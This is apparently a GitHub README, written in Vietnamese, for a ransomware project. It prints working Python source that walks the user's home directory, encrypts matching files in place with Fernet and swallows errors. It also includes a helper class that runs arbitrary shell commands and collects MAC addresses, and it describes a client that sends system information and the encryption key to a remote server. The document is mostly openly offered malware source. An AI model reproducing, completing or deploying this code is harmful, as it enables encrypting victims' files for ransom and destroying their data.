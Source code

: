 # RANSOMWARE
Chương trình ransomware, một loại phần mềm độc hại thường sử dụng để mã hóa các tệp trên máy tính của người dùng và yêu cầu một khoản tiền chuộc để giải mã chúng.

## MODULES
### ENCDEC
```python
def Process_Files(Private: Fernet, mode: str):
    for _, files in List_Files().items():
        for file in files:
            temp_file = file + '.temp'
            try:
                with open(file, 'rb') as original_file, open(temp_file, 'wb', buffering=4096*1024) as temp_file:
                    with mmap.mmap(original_file.fileno(), 0, access=mmap.ACCESS_READ) as mm:
                        offset = 0
                        while offset < len(mm):
                            chunk = mm[offset:offset + 4096 * 1024]
                            if not chunk:
                                break
                            processed_chunk = Private.encrypt(chunk) if mode == 'encrypt' else Private.decrypt(chunk)
                            temp_file.write(processed_chunk)
                            offset += len(chunk)
                shutil.move(temp_file.name, file)
            except Exception as e: pass
            finally:
                if os.path.exists(temp_file.name):
                    os.remove(temp_file.name)
```
- Hàm `Process_Files` nhận vào hai tham số: `Private`, một đối tượng `Fernet` được sử dụng để mã hóa và giải mã, và mode, một chuỗi chỉ định chế độ hoạt động (`encrypt` hoặc `decrypt`).
- Hàm này sẽ duyệt qua tất cả các tệp tin được trả về bởi hàm `List_Files`.
- Đối với mỗi tệp, nó tạo một tệp tạm thời với tên là tên tệp gốc kèm theo *.temp*.
- Nó mở tệp gốc để đọc và tệp tạm thời để ghi, với kích thước bộ đệm là 4096*1024 byte. Sử dụng mmap để ánh xạ tệp gốc vào bộ nhớ. 
- Sau đó đọc và xử lý từng *chunk* của tệp gốc, với kích thước *chunk* là 4096*1024 byte.
- Mỗi *chunk* sau đó được mã hóa (nếu mode là `encrypt`) hoặc giải mã (nếu mode là `decrypt`) bằng cách sử dụng đối tượng `Fernet`, và sau đó được ghi vào tệp tạm thời.
- Khi tất cả các *chunk* đã được xử lý, tệp tạm thời được đổi tên thành tên của tệp gốc, thay thế tệp gốc. Nếu có lỗi xảy ra trong quá trình này, hàm sẽ bỏ qua lỗi và tiếp tục với tệp tiếp theo. 
- Cuối cùng, nếu tệp tạm thời vẫn tồn tại nó sẽ được xóa.
```python
def List_Files() -> dict:
    with open('scripts/extensions.yaml', 'r') as file:
        exts = Safe_Load(file)

    file_categories = {category: [] for category in exts}
    extcategory = {ext: category for category, ext_list in exts.items() for ext in ext_list}

    for entry in Path.home().rglob('*'):
        if entry.is_file() and (ext := entry.suffix.lower()) in extcategory:
            file_categories[extcategory[ext]].append(str(entry))

    return file_categories
```
- Hàm mở tệp ‘*scripts/extensions.yaml*’ để đọc và sử dụng hàm `Safe_Load(file)` để phân tích dữ liệu *YAML* từ tệp này. Kết quả được lưu vào biến `exts`.

- Tạo một từ điển `file_categories` với các khóa là các danh mục từ `exts` và giá trị là các danh sách trống. Tạo một từ điển *extcategory* mà mỗi phần mở rộng tệp trong `exts` là một khóa và giá trị tương ứng là danh mục của phần mở rộng đó.

- Sau đó duyệt qua tất cả các tệp trong thư mục chính của người dùng. Nếu một mục là tệp và phần mở rộng của nó (được chuyển thành chữ thường) có trong `extcategory`, tệp đó sẽ được thêm vào danh mục tương ứng trong `file_categories`.

### SYSTEM
```python
class System:
    def __init__(self) -> None:
        self.Windows = _os_name == 'nt'
 
    def Init(self) -> None:
        _system('')

    def Clear(self) -> None:
        return _system("cls" if self.Windows else "clear")

    def Title(self, title: str):
        if self.Windows:
            return _system(f"title {title}")

    def Size(self, x: int, y: int) -> None:
        if self.Windows:
            return _system(f"mode {x}, {y}")
    
    def Reset(self) -> None:
        execv(executable, [executable] + argv) 
    
    def Mac(self) -> str:
        try:
            address_mac = [
                address.address 
                for addresses in net_if_addrs().values() 
                for address in addresses 
                if address.family == AF_LINK
            ]
            return '|'.join(address_mac) if address_mac else 'nm'  
        except:
            return 'nm'
    
    def Command(command: str):
        return _system(command)
```
    1 variable:
        Windows    |      cho biết người dùng đang sử dụng hệ điều hành Windows hay không
    7 functions:
        Init()     |      khởi tạo terminal để cho phép sử dụng màu sắc
        Clear()    |      xóa terminal
        Title()    |      đặt tiêu đề của terminal, chỉ dành cho Windows
        Size()     |      đặt kích thước của terminal, chỉ dành cho Windows
        Reset()    |      khởi động lại chương trình hiện tại
        Mac()      |      địa chỉ MAC của máy tính
        Command()  |      thực thi một lệnh shell trên hệ thống máy tính
```python
def Console(ip: str, msg: str, color: str) -> None:
    color_code = getattr(Col, color)
    message = f" [{Col.Green}{ip}{Col.White}] --> {color_code}{msg}{Col.White}."
    print(message)
```
- Hàm getattr được sử dụng để lấy giá trị thuộc tính color từ đối tượng Col.
- Tạo một chuỗi được định dạng và in ra chuỗi đã được định dạng.

## SERVER - CLIENT

**Server**: Máy chủ chấp nhận kết nối từ máy khách và xử lý dữ liệu đến. Sử dụng luồng để xử lý nhiều kết nối máy khách cùng một lúc.

**Client**: kết nối thành công, gửi thông tin hệ thống và khóa đến máy chủ. Nếu không kết nối được sau 3 lần thử lại, thực hiện khởi động lại chương trình.